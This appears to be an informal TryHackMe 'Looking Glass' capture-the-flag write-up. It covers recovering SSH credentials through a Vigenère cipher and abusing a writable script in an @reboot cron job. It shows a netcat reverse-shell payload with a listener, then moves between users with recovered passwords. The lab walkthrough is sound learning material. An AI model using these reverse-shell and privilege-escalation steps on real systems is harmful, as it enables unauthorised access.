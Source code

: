To solve this, we need to a brute forxce on vigenere chiper, the secret we need to inptu is: ``bewareTheJabberwock``

then we get a user and password which is:
``jabberwock:ExplanationCrowdedMannersIntroducing``

then let's try to conenct to main ssh port (22) with that user credential

now we're already in the machine as jabberwock, if we look at the home directory:
```
jabberwock@looking-glass:~$ ls /home
alice  humptydumpty  jabberwock  tryhackme  tweedledee  tweedledum
```

Here we'll get the first flag in the user.txt

now let's look at information that we may find and give us access to escalate our privilege.

jabberwock user able to reboot as sudo, some good information, now if we look for more, in the crontab section, the system will automaticly run 
```
@reboot tweedledum bash /home/jabberwock/twasBrillig.sh
```
when we reboot the system, as inofrmation, we have write access on twasBrillig.sh, how if we change the code, to give us reverse shell as tweedledump

```sh
nc "[Machine IP]" 1234 -e /bin/bash
```

now let's listen in our machine for any reverse shell, then wait for a shell.

``nc -lnvp 1234``

result:
```bash
┌──(djumanto㉿DESKTOP-6PUFOAG)-[~]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.18.108.222] from (UNKNOWN) [10.10.229.28] 40166
bash: cannot set terminal process group (884): Inappropriate ioctl for device
bash: no job control in this shell
tweedledum@looking-glass:~$ ls
ls
humptydumpty.txt
poem.txt
```

humpty dumpty contains some hashy hex things, first thing i tried is read from hex
```txt
[Broken Dump Bit nonsense] the password is zyxwvutsrqponmlk
```

we got another hash for the password, so what we'r going to do is using cracker, but... i ran out of clue, so i just tried to access it to random user humptydumpty and i can't, so i tread to acces it via tweedledee then run su humptydumpty:
```bash
tweedledee@looking-glass:/home/tweedledee$ su humptydumpty
su humptydumpty
Password: zyxwvutsrqponmlk

humptydumpty@looking-glass:/home/tweedledee$ ls
ls
ls: cannot open directory '.': Permission denied
humptydumpty@looking-glass:/home/tweedledee$ cd /home/humptydumpty
cd /home/humptydumpty
humptydumpty@looking-glass:~$ ls
ls
poetry.txt
```